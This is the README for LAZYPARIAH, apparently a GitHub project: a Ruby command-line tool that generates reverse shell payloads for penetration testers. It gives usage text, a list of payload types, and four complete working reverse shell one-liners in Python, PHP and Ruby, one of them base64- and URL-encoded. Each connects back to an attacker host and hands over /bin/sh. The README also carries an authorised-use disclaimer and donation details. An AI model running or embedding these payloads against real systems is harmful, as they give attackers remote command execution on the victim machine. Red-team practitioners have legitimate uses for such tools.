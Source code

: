 # LAZYPARIAH
A tool for generating reverse shell payloads on the fly.

## Description
LAZYPARIAH is a simple command-line tool for generating a range of reverse shell payloads on the fly. It was written in pure Ruby and has no dependencies outside of the standard library.

This tool is intended to be used only in authorised circumstances by qualified penetration testers, security researchers and red team professionals. Before downloading, installing or using this tool, please ensure that you understand the relevant laws in your jurisdiction. The author of this tool does not endorse the usage of this tool for illegal or unauthorised purposes.

## Demonstration
![Alt text](./lazypariah-0.2.0.svg)

## Dependencies
* Ruby >= 2.7.1 (LAZYPARIAH has not been tested on previous versions of Ruby)

## Installation
LAZYPARIAH can be installed as follows:
```
gem install lazypariah
```

## Usage
```
Usage:  lazypariah [OPTIONS] <PAYLOAD TYPE> <ATTACKER HOST> <ATTACKER PORT>
Note:   <ATTACKER HOST> may be an IPv4 address, IPv6 address or hostname.

Example:        lazypariah -u python3_b64 10.10.14.4 1555
Example:        lazypariah python2_c malicious.local 1337

Valid Payloads:
    bash_tcp
    nc
    nc_pipe
    perl
    perl_c
    php_fd_3
    php_fd_3_c
    php_fd_3_tags
    php_fd_4
    php_fd_4_c
    php_fd_4_tags
    php_fd_5
    php_fd_5_c
    php_fd_5_tags
    php_fd_6
    php_fd_6_c
    php_fd_6_tags
    python
    python2_b64
    python2_c
    python3_b64
    python3_c
    python_b64
    python_c
    ruby
    ruby_b64
    ruby_c

Valid Options:
    -h, --help                       Display help text and exit.
    -l, --license                    Display license information and exit.
    -u, --url                        URL-encode the payload.
    -v, --version                    Display version information and exit.
```

## Examples
The payloads listed above are more-or-less systematically named. Payloads ending with `_b64` essentially pipe base64-encoded code through to `base64 -d` and then on through to the relevant interpreter (such as `python3`, `python2` or `ruby`).

Payloads ending with `_c` are directly executed using the relevant interpreter (e.g. `python3 -c` or `ruby -e`).

Some payloads will specify a file descriptor to be used, such as `php_fd_5_tags`, which is a PHP payload that uses file descriptor 5 and is enclosed within PHP tags (`<?php` and `?>`).

Below are some examples of commands and their respective outputs.

Output of command `lazypariah -u python3_b64 10.10.14.4 1337`:
```
echo%20aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjQiLDEzMzcpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOw%3D%3D%20%7C%20base64%20-d%20%7C%20python3
```
Output of command `lazypariah python2_c 10.10.14.4 1337`:
```
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Output of command `lazypariah php_fd_3_tags 10.10.14.4 1337`:
```
<?php $sock=fsockopen("10.10.14.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");?>
```
Output of command `lazypariah ruby 10.10.14.4 1337`:
```
require "socket";exit if fork;c=TCPSocket.new("10.10.14.4","1337");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end
```

## Author
Copyright (C) 2020 Peter Bruce Funnell

## License
This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program.  If not, see <https://www.gnu.org/licenses/>

## Support
If you found this project useful and would like to encourage me to continue making open source software, please consider making a donation via the following link:

https://www.buymeacoffee.com/peterfunnell

Donations in Bitcoin (BTC) are also very welcome. My BTC wallet address is as follows:

```
3EdoXV1w8H7y7M9ZdpjRC7GPnX4aouy18g
```

<script type="text/javascript" src="https://cdnjs.buymeacoffee.com/1.0.0/button.prod.min.js" data-name="bmc-button" data-slug="peterfunnell" data-color="#40DCA5" data-emoji="🍻" data-font="Arial" data-text="Support this developer" data-outline-color="#000000" data-font-color="#ffffff" data-coffee-color="#FFDD00" ></script>
